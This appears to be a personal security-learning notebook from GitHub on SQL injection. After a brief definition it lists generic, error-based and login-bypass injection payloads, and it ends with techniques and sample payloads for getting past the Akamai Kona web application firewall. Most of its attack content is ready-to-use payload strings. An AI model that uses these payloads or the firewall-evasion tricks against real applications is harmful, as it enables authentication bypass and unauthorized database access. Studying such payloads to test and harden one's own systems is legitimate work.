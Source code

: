     # Klein
    Calvin Security Learning stuff lol
    NOTEBOOK sorta, slightly unorganized, catagorized but could be neater.

    "-" is a makeshift bulletpoint, not apart of whats typed after. eg 
    -  'lol = "'lol" 
    and not =/=
    "-  'lol"







    #SQL Injection

    SQLi is a security weakness which allows attackers to control and applications database and allowing them to,
    for instance modify data or change the database applications behaviour by tricking the database into allowing 
    sending SQL commands.

    Some I like to give a crack are;




Generic SQL Injection Payloads

- ' or '
- OR "" = "
- '=0--+
- 'LIKE'
- - ' AND id IS NULL; --
- '''''''''''''UNION SELECT '2


Generic Error Based Payloads

- OR 1=1
- OR 1=1-- 
- OR 3409=3409 AND ('pytW' LIKE 'pytW
- %' AND 8310=8310 AND '%'='
- AND 1=1 AND '%'='


Authentication Based Payloads

- admin') or ('1'='1'--
- or true--
- admin') or ('1'='1'#
- ' or ''&'
- admin') or ('1'='1'/
 
 
Ordre and Union based palloads

  Open Linux VM and check which ones had the most promising outcomes based on previous use cases Novemeber calvin
  
-
-
-
-
-


Akamai Kona Bypass

MID instead of SUBSTRING
LIKE instead of =
/**/ instead of a space
CURRENT_USER instead of CURRENT_USER()
" instead of '


       444/**/OR/**/MID(CURRENT_USER,1,1)/**/LIKE/**/"p"/**/#
       
       OR/**/3409LIKE3409/**/AND/**/("pytW"/**/LIKE/**/"pytW

































